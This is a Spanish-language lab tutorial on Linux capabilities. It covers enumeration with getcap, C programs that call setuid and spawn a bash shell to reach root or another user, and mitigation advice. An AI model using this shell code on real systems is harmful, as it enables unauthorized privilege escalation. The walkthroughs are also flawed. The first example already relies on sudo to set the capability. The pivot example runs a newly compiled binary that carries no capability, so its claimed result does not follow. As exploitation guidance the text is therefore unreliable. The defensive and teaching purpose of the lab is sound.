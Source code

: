 
---
# Laboratorio: Detección y explotación de Capabilities en Linux

---

## ¿Qué son las Linux Capabilities?

> Las *Linux Capabilities* son un mecanismo de control de privilegios más granular que el clásico modelo "todo o nada" del usuario `root`. Permiten dividir los privilegios del superusuario en unidades más pequeñas llamadas *capabilities*, que pueden asignarse a procesos o binarios individuales.

Esto permite que ciertos binarios tengan permisos limitados para realizar tareas privilegiadas sin necesidad de ejecutarse completamente como `root`.

---

## Tipos de capabilities

Las capabilities se agrupan en tres tipos:

- **Effective (`e`)**: Habilitadas actualmente para el proceso.
- **Permitted (`p`)**: El conjunto máximo de capabilities que el proceso puede habilitar.
- **Inheritable (`i`)**: Capabilities que pueden heredarse por procesos hijos.

---

## Riesgos de seguridad

Algunas capabilities pueden ser peligrosas si se asignan a binarios controlables o mal diseñados. Por ejemplo:

- `cap_net_raw`: permite crear paquetes raw → posible *sniffing* o spoofing.
- `cap_setuid`: permite cambiar el UID del proceso → posible escalada de privilegios.
- `cap_sys_admin`: muy poderosa, similar a `root`.

---

## Enumeración de capabilities

### Acción:

Buscar todos los binarios con capabilities asignadas:

```bash
getcap -r / 2>/dev/null
````

### Resultado ejemplo:

```bash
/usr/bin/ping = cap_net_raw+ep
/usr/local/bin/custom = cap_setuid+ep
```

### Explicación:

- El binario `ping` tiene acceso a paquetes raw.
    
- `custom` puede cambiar su UID, lo que podría explotarse para escalar a otro usuario o `root`.
    

---

## Ejemplo práctico: Escalada de privilegios con cap_setuid

Supongamos que encontramos un binario con la capability `cap_setuid+ep` asignada:

```bash
getcap /usr/local/bin/mi_binario
/usr/local/bin/mi_binario = cap_setuid+ep
```

Y verificamos que podemos ejecutarlo:

```bash
ls -l /usr/local/bin/mi_binario
-rwxr-xr-x 1 user user 123456 jun 14 10:00 /usr/local/bin/mi_binario
```

### Acción:

Creamos un binario personalizado que nos dé una shell con UID 0 (root):

```c
// shell.c
#include <unistd.h>
int main() {
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

Compilamos y asignamos la capability:

```bash
gcc shell.c -o shell
sudo setcap cap_setuid+ep ./shell
```

### Resultado:

```bash
./shell
# whoami
root
```

---

## Uso del comando `setcap` y `getcap`

### Asignar una capability a un binario:

```bash
sudo setcap cap_net_raw+ep /ruta/al/binario
```

### Ver capabilities asignadas:

```bash
getcap /ruta/al/binario
```

### Quitar capabilities:

```bash
sudo setcap -r /ruta/al/binario
```

---

## Pivoting entre usuarios usando capabilities

### Escenario:

Un binario tiene `cap_setuid` y es ejecutable por nuestro usuario, pero pertenece a otro usuario del sistema (`backup`, por ejemplo):

```bash
ls -l /usr/local/bin/switch_user
-rwxr-xr-x 1 backup backup 123456 jun 14 10:00 /usr/local/bin/switch_user
getcap /usr/local/bin/switch_user
/usr/local/bin/switch_user = cap_setuid+ep
```

### Acción:

Creamos un binario que cambie al UID de `backup` (o de `root`, si no hay restricciones adicionales):

```c
#include <unistd.h>
int main() {
    setuid(1002); // UID de backup
    system("/bin/bash");
    return 0;
}
```

Compilamos y ejecutamos:

```bash
gcc -o jump jump.c
./jump
```

### Resultado:

```bash
$ whoami
backup
```

Hemos pivoteado a otro usuario aprovechando una capability mal configurada.

---

## Recomendaciones y mitigación

- **Auditar regularmente** el sistema con `getcap -r /` para detectar binarios con capabilities asignadas.
    
- **Evitar asignar capabilities peligrosas** (`cap_setuid`, `cap_sys_admin`, etc.) a binarios no verificados.
    
- **Usar mecanismos MAC** como AppArmor o SELinux para limitar aún más lo que puede hacer un binario, incluso con capabilities.
    
- **Eliminar capabilities no necesarias** con `setcap -r`.
    
- Supervisar usuarios con permisos para asignar capabilities (`sudo`, `setcap`).
    

---

## Herramientas útiles

- `getcap`: lista capabilities asignadas.
    
- `setcap`: asigna o elimina capabilities.
    
- `capsh --print`: imprime las capabilities actuales de la shell.
    
- `pscap`: herramienta para visualizar capabilities de procesos en tiempo real (requiere instalación).
    

---

## Resumen

Las Linux Capabilities pueden mejorar la seguridad cuando se usan correctamente, pero también pueden ser explotadas para obtener privilegios elevados si se aplican mal. La revisión y auditoría periódica de estas configuraciones es una práctica esencial para mantener un entorno Linux seguro.

---
